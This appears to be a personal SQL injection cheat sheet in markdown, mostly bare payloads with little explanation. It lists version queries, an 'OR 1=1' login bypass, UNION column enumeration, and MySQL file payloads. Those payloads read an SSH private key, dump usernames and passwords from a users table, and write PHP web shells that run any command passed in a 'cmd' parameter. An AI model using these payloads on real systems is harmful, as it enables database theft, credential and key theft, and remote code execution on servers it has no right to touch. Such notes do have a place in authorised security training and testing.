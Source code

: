 | Database type |	Query |
| --- | --- |
| Microsoft, MySQL | SELECT @@version |
| Oracle	| SELECT * FROM v$version |
| PostgreSQL |	SELECT version() |

```
'+OR+1=1--
```

![](Pasted%20image%2020231003144222.png)

```
'--+
```

![](Pasted%20image%2020231003144626.png)

![](Pasted%20image%2020231003144723.png)

## SQL injection UNION attacks

## Determining the number of columns required

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.
```

```
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.
```

```
union select 1,2,3,4,5,6,7,8,9,10,11,12 --
```

```
group_concat(file_priv,0x3a,user) from mysql.user
```

```
group_concat(version())
```

```
load_file('C:\\Windows\\win.ini')
```

```
into outfile 'C:\\xampp\\htdocs\\filename.ext'
```

```
'<?php phpinfo(); ?>' into outfile 'C:\\xampp\\htdocs\\try.php'
```

```
<?php if(isset($_REQUEST['cmd'])){echo "<pre>";$cmd = ($_REQUEST['cmd']);system($cmd);echo "</pre>";die;}?>
```

```
<?php system($_GET["cmd"]);?>
```

```
load_file('C:\\Users\\username\\.ssh\\id_rsa')
```

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE
"/var/www/html/tmp/webshell.php" -- //
```

```
https://vulnerable.site/vulnerable.php?id=-1%20union%20select%201,group_concat(login,%27:%27,password),3,4%20from%20users
```

